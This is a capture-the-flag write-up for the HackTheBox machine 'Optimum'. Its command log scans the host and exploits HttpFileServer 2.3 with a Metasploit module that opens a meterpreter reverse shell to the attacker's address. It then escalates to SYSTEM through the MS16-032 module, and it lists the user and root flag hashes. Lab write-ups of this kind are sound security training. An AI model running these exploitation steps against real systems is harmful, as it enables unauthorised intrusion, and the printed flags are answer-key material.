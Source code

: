 # Optimum - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.8

msfconsole -q

search httpfileserver

use exploit/windows/http/rejetto_hfs_exec

set RHOSTS 10.10.10.8

set SRVPORT 80

set LHOST 10.10.14.2

run
#we get RCE
#in meterpreter shell

ls -la

cat user.txt

getuid
#we are kostas

sysinfo
#x64 arch

shell
#get into shell

systeminfo
#copy output

#in attacker machine
vim sysinfo.txt

python2 windows-exploit-suggester.py --database 2022-11-13-mssb.xls --systeminfo sysinfo.txt
#suggests a lot of exploits
#we can choose MS16-032

#Ctrl+C out of the shell
background
#backgrounds meterpreter shell

search ms16_032

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

options

set SESSION 1

set LHOST 10.10.14.2

set LPORT 4445

run
#gives meterpreter shell as system

getuid
#get root flag now
```

* Open ports & services:

  * 80 - http - HttpFileServer httpd 2.3

* Searching for exploits for HFS 2.3 shows us an exploit on Metasploit; we can attempt to use this.

* After configuring and running the exploit, we successfully get RCE through meterpreter shell.

* After getting user flag, we can attempt basic enumeration with the help of ```windows-exploit-suggester```.

* We are suggested several exploits, we can use any one of them.

* We can attempt to use the exploit for MS16-032 from Metasploit itself; we can push our session to background and run the exploit.

* Running the exploit gives us a session as SYSTEM, we can read root flag now.

```markdown
1. User flag - 716553e5fc6e1f33e1e81ee7d5d8fe86

2. Root flag - adb3afe86acbd4fb55d70d630e795a06
```
